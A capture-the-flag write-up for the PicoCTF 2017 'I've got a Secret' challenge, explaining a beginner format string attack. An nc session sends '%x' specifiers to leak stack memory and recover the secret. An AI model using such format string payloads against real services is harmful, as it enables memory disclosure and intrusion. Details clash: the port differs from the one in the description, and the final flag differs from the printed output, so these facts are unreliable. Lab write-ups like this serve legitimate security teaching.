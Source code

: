 # PicoCTF_2017: I've got a Secret

**Category:** Binary Exploitation
**Points:** 75
**Description:**

>Hopefully you can find the right format for my [secret](secret.c)! Source. Connect on shell2017.picoctf.com:55189.

**Hint:**

>This is a beginning format string attack.

## Write-up
A classic format string attack, which means passing the conversion string in the input field to get the memory address of the stack.

By running the code for the first time, we come to know that the secret is in hex format, so `%x` can be used to attack this code.

    $ nc shell2017.picoctf.com 39169
	Give me something to say!
	%x %x %x %x %x %x %x %x
	40 f7fc7c20 8048792 1 ffffdd34 4ef971b5 3 f7fc73c4
	Now tell my secret in hex! Secret: f7fc7c20
    As my friend says,"You get nothing! You lose! Good day, Sir!"

As seen in the above result, 

    $ nc shell2017.picoctf.com 39169
	Give me something to say!
	%x %x %x %x %x %x %x %x
	40 f7fc7c20 8048792 1 ffffdd34 4ef971b5 3 f7fc73c4
	Now tell my secret in hex! Secret: 4ef971b5
	c9fd8f8a1dcaee8962bc60cb516a79a5
	Wow, you got it!

Therefore, the flag is `a18450ba7aaa8c085c522cdef6ab35ab`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbNzkwMDg1MTIxXX0=
-->